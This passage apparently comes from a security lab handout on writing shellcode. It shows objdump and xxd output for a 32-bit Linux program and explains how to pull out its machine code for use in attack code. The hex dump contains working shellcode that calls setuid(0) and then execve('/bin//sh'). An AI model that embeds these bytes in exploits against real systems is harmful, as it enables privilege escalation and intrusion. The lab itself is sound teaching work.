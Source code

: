 ```

$ echo $$
25751     <---- the process ID of the current shell
$ mysh
$ echo $$
9760      <---- the process ID of the new shell
```
**Getting the machine code.** During the attack, we only need the machine code of the shellcode, not a standalone executable file, which contains data other than the actual machine code. Technically, only the machine code is called shellcode. Therefore, we need to extract the machine code from the executable file or the object file. There are various ways to do that. One way is to use the `objdump` command to disassemble
the executable or object file.
<Br>
&emsp; There are two different common syntax modes for assembly code, one is the AT&T syntax mode, and the other is Intel syntax mode. By default,objdumpuses the AT&T mode. In the following, we use the `-Mintel` option to produce the assembly code in the Intel mode.
```
$ objdump -Mintel --disassemble mysh.o
mysh.o: file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
    0: **31 db** xor ebx,ebx
    2: **31 c0** xor eax,eax
            ... (code omitted) ...
    1f: **b0 0b** mov al,0xb
    21: **cd 80** int 0x80
```
&emsp; In the above printout, the highlighted numbers are machine code. You can also use the `xxd` command to print out the content of the binary file, and you should be able to find out the shellcode’s machine code from the printout.
```
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
00000000000000000000000031db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd8000000000000000000000000000
...
```

**Using the shellcode in attacking code.** In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program. We usually store the machine code in an array, but converting the machine code printed above to the array assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this process many times in the lab. We wrote the following Python code to help this process. Just copy whatever you get from the `xxd` command (only the shellcode
part) and paste it to the following code, between the lines marked by """. The code can be downloaded from the lab’s website.
